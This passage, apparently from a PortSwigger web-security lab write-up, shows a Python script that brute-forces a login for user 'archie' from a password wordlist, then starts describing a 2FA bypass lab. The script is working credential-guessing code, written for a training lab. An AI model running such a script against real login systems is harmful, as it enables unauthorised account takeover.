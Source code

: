 ```python
passwords = open('pass.txt','r')
for i in passwords:
	trial = i.rstrip('\n')
	login_data = {
		'username':'archie',
		'password':trial
	}
	r = s.post(url + '/login', proxies=proxies, data=login_data, cookies=cookies, verify=False)
	if 'Incorrect password' not in r.text:
		print(f'[+] Valid password: {trial}')
		sys.exit(1)
```

`zxcvbn` is the correct password. This script auto-solves the lab.

## Lab 2: 2FA Bypass

This lab gives us valid credentials, and requires us to bypass the 2FA to solve the lab. I have access to an email client for this lab.

When logging in using `wiener` credentials, I can see that I am emailed a code:

![](../../.gitbook/assets/portswigger-auth-writeup-image-2.png)

This is used for the 2FA mechanism:

![](../../.gitbook/assets/portswigger-auth-writeup-image-3.png)
